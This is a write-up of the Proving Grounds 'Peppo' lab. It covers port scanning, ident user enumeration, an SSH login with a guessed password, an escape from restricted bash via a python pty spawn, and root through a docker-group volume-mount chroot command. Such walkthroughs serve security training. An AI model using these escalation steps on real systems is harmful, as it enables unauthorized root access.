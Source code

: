 ```yaml
---
description: Pg Practice Peppo writeup
---
```


# Peppo

## Nmap

```
sudo nmap 192.168.100.60 -p- -sS -sV

PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
5432/tcp  open   postgresql        PostgreSQL DB 9.6.0 or later
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open   snet-sensor-mgmt?
```

As `ident` is running we can use the Perl script `ident-user-enum` to identify which services are running under what user.

![](<../../../.gitbook/assets/image (993).png>)

Port 10000 reports it is running under the user 'eleanor'. I tried Bruteforcing the username on `SSH` and had no luck. Eventually simply trying `eleanor:elenaor` I was able to login on SSH.

![](<../../../.gitbook/assets/image (994).png>)

We see from trying the `id` command we are locked in with a restricted bash shell. Checking out our command availability by viewing `$PATH` we can see what binaries we have access to.

![](<../../../.gitbook/assets/image (995).png>)

Checking GTFObins for any of these binaries than can spawn a shell to escape a restricted one:

![](<../../../.gitbook/assets/image (996).png>)

After running the above command we can export a new path and then spawn a python shell then again export the path to have full functionover the shell session.

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
python -c 'import pty; pty.spawn("/bin/bash")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

![](<../../../.gitbook/assets/image (997).png>)

The command `id` shows we are a member of the docker group. GTFObins again shows a method for spawning a root shell when we are a member of the docker group.

![](<../../../.gitbook/assets/image (998) (1).png>)

First check what images we have available to us:

```
docker image ls
```

![](<../../../.gitbook/assets/image (999).png>)

We can use the GTFObins command replacing the value `<alpine>` with one of the images listed above.

```
docker run -v /:/mnt --rm -it redmine chroot /mnt sh
```

Returning a shell as root:

![](<../../../.gitbook/assets/image (1000).png>)

{% hint style="success" %}
If you found this page helpful to you, please rate below as per the feedback options. For any corrections or general communications, please see the root page [**Pentest Everything**](http://localhost:5000/s/-MFlgUPYI8q83vG2IJpI/) for contact information.
{% endhint %}
